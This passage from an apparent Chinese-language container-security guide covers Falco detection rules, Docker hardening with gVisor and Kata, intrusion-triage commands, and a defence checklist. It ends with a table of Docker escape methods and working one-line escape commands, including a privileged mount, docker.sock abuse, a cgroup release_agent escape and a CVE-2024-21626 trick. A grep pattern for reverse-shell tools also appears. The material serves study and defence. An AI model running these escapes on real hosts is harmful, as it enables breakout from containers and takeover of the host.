    fd.name contains "release_agent"
  output: "cgroup release_agent modification (user=%user.name command=%proc.cmdline)"
  priority: CRITICAL
  tags: [container, mitre_privilege_escalation]

- rule: Sensitive Mount
  desc: Detect sensitive host filesystem mounts
  condition: >
    container.id != host and
    mount_type == "bind" and
    (mount_target contains "/host" or
     mount_target contains "/root")
  output: "Sensitive host mount detected (user=%user.name mount=%mount.target)"
  priority: HIGH
  tags: [container, mitre_privilege_escalation]

- rule: Unexpected System Call
  desc: Detect unexpected syscalls from container
  condition: >
    container.id != host and
    container.image.repository != "myapp" and
    evt.type in (init_module, finit_module, delete_module, kexec_load)
  output: "Unexpected syscall from container (user=%user.name syscall=%evt.type %container.info)"
  priority: HIGH
  tags: [container, mitre_defense_evasion]
```

### 10.5 Docker Bench Security

```bash
# Docker Bench Security 是一个自动化安全检查脚本
# 它检查 Docker 主机和容器的安全配置

# 运行 Docker Bench Security
docker run --net=host --pid=host --userns=host \
  --cap-add=audit_control \
  -e DOCKER_CONTENT_TRUST=$DOCKER_CONTENT_TRUST \
  -v /var/lib:/var/lib:ro \
  -v /var/run/docker.sock:/var/run/docker.sock:ro \
  -v /usr/lib/systemd:/usr/lib/systemd:ro \
  -v /etc:/etc:ro \
  --label docker_bench_security \
  docker/docker-bench-security

# 重点关注以下检查项
# - 2.1: 限制容器 Capabilities
# - 2.2: 不使用特权容器
# - 2.3: 不使用 host network
# - 2.4: 限制容器内存使用
# - 2.5: 限制容器 root 文件系统写权限
# - 2.6: 不使用 docker.sock 挂载
# - 2.7: 不使用 host PID 命名空间
# - 2.8: 不使用 host IPC 命名空间
# - 2.9: 不使用 host UTS 命名空间
# - 2.10: 禁用容器间通信
```

### 10.6 高级防护：gVisor 和 Kata Containers

```bash
# === gVisor（Google 开发） ===
# 为容器提供额外的安全层，在用户空间实现内核接口
# 安装 gVisor
curl -fsSL https://gvisor.dev/archive.key | apt-key add -
add-apt-repository "deb https://storage.googleapis.com/gvisor/releases release main"
apt-get update && apt-get install -y runsc

# 配置 Docker 使用 gVisor
cat > /etc/docker/daemon.json << 'EOF'
{
    "runtimes": {
        "runsc": {
            "path": "/usr/bin/runsc",
            "runtimeArgs": []
        }
    }
}
EOF
systemctl restart docker

# 使用 gVisor 运行容器
docker run --runtime=runsc --rm -it ubuntu:22.04 bash

# === Kata Containers ===
# 使用轻量级虚拟机隔离每个容器
# 安装 Kata
apt-get install -y kata-runtime

# 配置 Docker
cat > /etc/docker/daemon.json << 'EOF'
{
    "runtimes": {
        "kata-runtime": {
            "path": "/usr/bin/kata-runtime"
        }
    }
}
EOF
systemctl restart docker

# 使用 Kata 运行
docker run --runtime=kata-runtime --rm -it ubuntu:22.04 bash
```

---

## 十一、检测排查指南

### 11.1 检测流程



### 11.2 8类告警特征

| 告警类型 | 特征 | 检测方法 |
|:--------|:----|:--------|
| 特权容器 | 容器运行在特权模式 | `docker inspect --format '{{.HostConfig.Privileged}}'` |
| docker.sock 挂载 | 容器可访问 Docker API | `docker inspect --format '{{range .Mounts}}{{.Source}}{{end}}'` |
| 宿主机目录挂载 | 容器挂载了宿主机敏感目录 | `docker inspect --format '{{range .Mounts}}{{.Source}}→{{.Destination}}{{"\n"}}{{end}}'` |
| 异常 Capabilities | 容器拥有不必要的 Cap | `docker inspect --format '{{.HostConfig.CapAdd}}'` |
| 反弹 Shell | 容器向外建立反向连接 | 网络流量分析 |
| 内核漏洞利用 | 容器内执行提权操作 | Falco/Auditd 检测 |
| cgroup 修改 | 修改 release_agent | Auditd 监控 /sys/fs/cgroup |
| 新容器创建 | 通过 docker.sock 创建新容器 | Docker 审计日志 |

### 11.3 入侵痕迹排查（15条命令）

```bash
# === 1. 检查所有容器的运行模式 ===
docker ps -q | xargs -I {} docker inspect --format '{{.Name}} Privileged:{{.HostConfig.Privileged}} Mounts:{{range .Mounts}}{{.Source}}→{{.Destination}} {{end}}' {}

# === 2. 检查异常的网络连接 ===
# 在宿主机上
ss -tlnp | grep -v docker
netstat -tulpn | grep -v docker

# === 3. 检查异常的系统用户 ===
cat /etc/passwd | grep -v nologin | grep -v /bin/false

# === 4. 检查 SSH 密钥 ===
find /home /root -name "authorized_keys" -exec cat {} \;
find /home /root -name "id_rsa" -o -name "id_ed25519"

# === 5. 检查计划任务 ===
cat /etc/crontab
ls -la /etc/cron.d/
for f in /etc/cron.*/*; do echo "=== $f ==="; cat $f; done

# === 6. 检查系统服务 ===
systemctl list-units --type=service --state=running
ls -la /etc/systemd/system/*.service

# === 7. 检查可疑进程 ===
ps aux | grep -E "bash -i|nc |ncat|perl -e|python.*socket"
ps auxf

# === 8. 检查内核模块 ===
lsmod
# 检查最近加载的模块
dmesg | tail -20

# === 9. 检查文件变动 ===
# 最近修改的二进制文件
find /usr/bin /usr/sbin /bin /sbin -mtime -1 -ls
# 检查 SUID 文件
find / -perm -4000 -mtime -1 -ls 2>/dev/null

# === 10. 检查 Docker 审计日志 ===
journalctl -u docker -n 100
cat /var/log/docker.log 2>/dev/null

# === 11. 检查 /var/lib/docker 中的异常文件 ===
ls -la /var/lib/docker/containers/
# 检查容器日志中的异常
tail -50 /var/lib/docker/containers/*/*.log 2>/dev/null

# === 12. 检查 cgroup 是否被滥用 ===
find /sys/fs/cgroup -name "release_agent" -exec cat {} \;
find /sys/fs/cgroup -name "notify_on_release" -exec cat {} \;

# === 13. 检查容器镜像层中的可疑文件 ===
docker history --no-trunc IMAGE_NAME

# === 14. 检查 Docker 网络 ===
docker network inspect bridge
docker network ls
# 检查不必要的网络连接

# === 15. 综合审计 ===
# 使用 Falco 实时监控
docker run --rm -it \
  --privileged \
  -v /var/run/docker.sock:/var/run/docker.sock \
  -v /proc:/proc:ro \
  -v /etc:/etc:ro \
  falcosecurity/falco:latest
```

### 11.4 10项检测清单

| 编号 | 检测项 | 严重程度 | 确认方法 |
|:---:|:------|:-------:|:--------|
| 1 | 是否存在特权容器 | 🔴 严重 | `docker ps --quiet \| xargs docker inspect --format '{{.Name}} {{.HostConfig.Privileged}}'` |
| 2 | 是否存在 docker.sock 挂载 | 🔴 严重 | `for c in $(docker ps -q); do docker inspect $c \| grep -q docker.sock && echo "Found in $c"; done` |
| 3 | 是否存在宿主机根目录挂载 | 🔴 严重 | `for c in $(docker ps -q); do docker inspect -f '{{range .Mounts}}{{.Source}}{{"\n"}}{{end}}' $c \| grep -E "^/$" && echo "Found in $c"; done` |
| 4 | 是否存在 SYS_ADMIN Cap | 🟡 中危 | `for c in $(docker ps -q); do docker inspect -f '{{.Name}} {{.HostConfig.CapAdd}}' $c \| grep -i sys_admin && echo "Found"; done` |
| 5 | 是否存在主机网络模式 | 🟡 中危 | `docker ps --filter "network=host"` |
| 6 | 是否存在主机 PID 模式 | 🟡 中危 | `docker ps --filter "pid=host"` |
| 7 | 镜像是否存在已知 CVE | 🟡 中危 | `trivy image --severity HIGH,CRITICAL IMAGE_NAME` |
| 8 | Docker 版本是否存在已知漏洞 | 🔴 严重 | `docker version \| grep Version` 对比 CVE |
| 9 | 内核版本是否存在提权漏洞 | 🟡 中危 | `uname -r` 对比已知内核 CVE |
| 10 | 是否存在非预期的网络连接 | 🟡 中危 | `docker ps -q \| xargs -I {} docker exec {} ss -tlnp 2>/dev/null` |

---

## 十二、速查总表

### 12.1 逃逸手法速查总表

| 逃逸方法 | 前置条件 | 难度 | 成功率 | POC行数 | 需要工具 |
|:---------|:--------|:---:|:-----:|:------:|:--------|
| 特权模式 + 挂载设备 | `--privileged` | 🟢 | 100% | 3行 | mount |
| docker.sock → 新容器 | `/var/run/docker.sock` | 🟢 | 100% | 3行 | docker/curl |
| 宿主机目录挂载 + chroot | `-v /:/host` | 🟢 | 100% | 2行 | chroot |
| SYS_ADMIN + cgroup | `SYS_ADMIN` | 🟡 | 80% | 15行 | mount/bash |
| SYS_PTRACE + 进程注入 | `SYS_PTRACE` + `--pid=host` | 🟡 | 70% | 30行 | gcc/gdb |
| SYS_MODULE + 内核模块 | `SYS_MODULE` | 🟡 | 90% | 20行 | insmod/gcc |
| CVE-2024-21626 | runc < 1.1.12 | 🟢 | 90% | 3行 | ls/chroot |
| CVE-2019-5736 | runc < 1.0-rc6 | 🔴 | 85% | 50行 | golang |
| DirtyPipe (CVE-2022-0847) | 内核 5.8~5.16 | 🟢 | 95% | 1秒 | gcc |
| DirtyCow (CVE-2016-5195) | 内核 2.6.22~4.8.3 | 🟢 | 95% | 5秒 | gcc |
| nsenter + --pid=host | `--pid=host` | 🟢 | 95% | 1行 | nsenter |
| K8s SA Token 创建特权 Pod | K8s + 高权限 SA | 🟡 | 70% | 20行 | curl |

### 12.2 防御手段速查

| 防御措施 | 防御的逃逸类型 | 配置复杂度 | 影响可用性 |
|:---------|:------------|:---------:|:---------:|
| 禁止 `--privileged` | 特权逃逸 | 🟢 低 | ✅ 无 |
| 禁止挂载 docker.sock | docker.sock 逃逸 | 🟢 低 | ✅ 无 |
| Seccomp 策略 | capabilities 滥用 | 🟡 中 | ⚠️ 需测试 |
| AppArmor/SELinux | 大部分逃逸 | 🔴 高 | ⚠️ 需调优 |
| 只读根文件系统 | 文件写入类逃逸 | 🟢 低 | ⚠️ 需验证 |
| 最小 Capabilities | capabilities 滥用 | 🟢 低 | ✅ 无 |
| 用户命名空间 | root 提权 | 🟡 中 | ⚠️ 可能影响 |
| 运行时安全（Falco） | 实时检测 | 🟡 中 | ✅ 无 |
| 镜像扫描（Trivy） | 镜像漏洞 | 🟢 低 | ✅ 无 |
| gVisor/Kata 容器 | 内核漏洞逃逸 | 🔴 高 | ⚠️ 性能下降 |
| 禁止 `--pid=host` | PID 命名空间逃逸 | 🟢 低 | ✅ 无 |
| 禁止 `--network=host` | 网络命名空间逃逸 | 🟢 低 | ✅ 无 |

### 12.3 POC 一句话版

```bash
# 特权模式逃逸
docker run --rm -it --privileged ubuntu bash -c "mount /dev/sda1 /mnt && chroot /mnt bash"

# docker.sock 逃逸
docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu bash -c "docker run -v /:/host ubuntu chroot /host bash"

# 宿主机目录挂载逃逸
docker run --rm -it -v /:/host ubuntu bash -c "chroot /host bash"

# SYS_ADMIN + cgroup 逃逸
docker run --rm -it --cap-add=SYS_ADMIN ubuntu bash -c "mkdir -p /tmp/c && mount -t cgroup -o memory cgroup /tmp/c && mkdir -p /tmp/c/x && echo '/bin/bash' > /tmp/c/release_agent && echo 1 > /tmp/c/x/notify_on_release && echo \$\$ > /tmp/c/x/cgroup.procs && exit"

# CVE-2024-21626 逃逸
docker run --rm -it ubuntu:22.04 bash -c "chroot /proc/self/fd/8/ bash"

# DirtyPipe 逃逸
gcc exploit.c -o exploit && ./exploit
```

### 12.4 工具推荐

| 工具 | 用途 | 类型 | 项目地址 |
|:----|:----|:----|:--------|
| **Docker Bench Security** | Docker 安全配置检查 | 扫描器 | [GitHub](https://github.com/docker/docker-bench-security) |
| **Falco** | 容器运行时安全监控 | 检测 | [GitHub](https://github.com/falcosecurity/falco) |
| **Trivy** | 容器镜像漏洞扫描 | 扫描器 | [GitHub](https://github.com/aquasecurity/trivy) |
| **gVisor** | 容器沙箱运行时 | 防御 | [GitHub](https://github.com/google/gvisor) |
| **Kata Containers** | 安全容器运行时 | 防御 | [GitHub](https://github.com/kata-containers/kata-containers) |
| **Amicontained** | 容器逃逸检测 | 检测 | [GitHub](https://github.com/genuinetools/amicontained) |
| **Container Escape Check** | 检测容器逃逸可能性 | 检测 | [GitHub](https://github.com/teamssix/container-escape-check) |
| **CDK** | 容器渗透工具集 | 利用 | [GitHub](https://github.com/cdk-team/CDK) |
| **Deepce** | Docker 逃逸工具 | 利用 | [GitHub](https://github.com/stealthcopter/deepce) |
| **Boomer** | 容器逃逸验证工具 | 利用 | [GitHub](https://github.com/Manouchehri/boomer) |
| **Kube-hunter** | K8s 渗透测试 | 扫描 | [GitHub](https://github.com/aquasecurity/kube-hunter) |
| **Kube-bench** | K8s 安全配置检查 | 扫描 | [GitHub](https://github.com/aquasecurity/kube-bench) |

---

> **参考链接：**
> - [云上安全渗透测试全技巧](34-cloud-pentest.md) — 云环境下更多逃逸场景
> - [Linux安全渗透测试全技巧](03-linux-pentest.md) — 逃逸后的提权与持久化
> - [二进制漏洞利用（PWN）全技巧](39-pwn.md) — 内核漏洞利用高级技巧
